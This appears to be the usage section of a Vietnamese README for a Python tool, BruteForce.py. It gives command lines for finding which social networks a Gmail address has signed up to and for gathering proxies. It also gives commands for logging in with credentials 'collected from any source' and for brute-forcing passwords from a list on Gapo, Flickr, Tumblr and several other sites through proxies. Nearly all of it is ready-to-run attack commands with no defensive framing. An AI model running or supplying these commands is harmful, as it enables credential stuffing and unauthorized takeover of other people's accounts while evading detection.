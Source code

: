 Thực hiện dùng finder để tìm kiếm các mạng xã hội mà gmail đãng ký
python BruteForce.py -% [gmail]

===========================================================
Thực hiện nhận proxy

Nhận proxy cho tất cả các mạng xã hội bên trong công cụ
python BruteForce.py -> [proxy_list]
Nhận proxy cho mạng xã hội cụ thể
python BruteForce.py -> [proxy_list] -~ gapo
Nhận proxy cho nhiều mạng xã hội ngăn nhau bởi dấu ,
python BruteForce.py -> [proxy_list] -~ gapo,biztime


===========================================================
Thực hiện đăng nhập tài khoản thu thập được từ bất kỳ nguồn nào. Với tài khoản gmail và password

python BruteForce.py -! [Tên đăng nhập có dạng gmail] -$ [Mật khẩu] -< [proxy_list]

===========================================================
BruteForce trên từng mạng xã hội

BruteForce Gapo
python BruteForce.py -G [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Biztime
python BruteForce.py -b [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Hahalolo
python BruteForce.py -H [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Flickr
python BruteForce.py -F [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Tumblr
python BruteForce.py -T [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Zoimas
python BruteForce.py -Z [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Befilo
python BruteForce.py -B [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Desentric
python BruteForce.py -D [Tên đăng nhập] -# [password_list] -< [proxy_list]

===========================================================
Ngoài ra có thể kiểm tra đang nhập cụ thể bằng cách lệnh

Ví dụ cho Gapo
python BruteForce.py -G [Tên đăng nhập] -$ [password] -< [proxy_list]
